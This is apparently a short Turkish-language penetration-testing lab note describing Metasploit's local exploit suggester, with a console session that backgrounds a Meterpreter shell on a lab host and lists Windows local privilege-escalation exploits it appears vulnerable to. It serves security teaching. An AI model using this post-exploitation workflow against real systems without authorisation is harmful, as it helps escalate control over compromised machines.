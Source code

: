 1. **Güvenlik Açığı Tespiti**: Hedef sistemde yüklü olan yazılımları ve sürümlerini kontrol ederek, bilinen güvenlik açıklarıyla eşleşen yerel exploitleri önerir.
    
2. **Kolay Kullanım**: Sadece bir Meterpreter oturumuyla çalışarak, sistemdeki mevcut güvenlik açıklarını bulmak için karmaşık bir araştırma yapmanıza gerek kalmadan otomatik olarak öneriler sunar.
    
3. **Exploit Listesi**: Hedef sistemdeki yazılım ve sürümlerine göre hangi exploitlerin kullanılabileceği konusunda bilgi verir, bu da pentester'ların daha hızlı hareket etmesine olanak tanır.


```shell-session
meterpreter > bg

Background session 1? [y/N]  y


msf6 exploit(windows/iis/iis_webdav_upload_asp) > search local_exploit_suggester

Matching Modules
================

   #  Name                                      Disclosure Date  Rank    Check  Description
   -  ----                                      ---------------  ----    -----  -----------
   0  post/multi/recon/local_exploit_suggester                   normal  No     Multi Recon Local Exploit Suggester


msf6 exploit(windows/iis/iis_webdav_upload_asp) > use 0
msf6 post(multi/recon/local_exploit_suggester) > show options

Module options (post/multi/recon/local_exploit_suggester):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   SESSION                           yes       The session to run this module on
   SHOWDESCRIPTION  false            yes       Displays a detailed description for the available exploits


msf6 post(multi/recon/local_exploit_suggester) > set SESSION 1

SESSION => 1


msf6 post(multi/recon/local_exploit_suggester) > run

[*] 10.10.10.15 - Collecting local exploits for x86/windows...
[*] 10.10.10.15 - 34 exploit checks are being tried...
nil versions are discouraged and will be deprecated in Rubygems 4
[+] 10.10.10.15 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Post module execution completed
msf6 post(multi/recon/local_exploit_suggester) > 
```
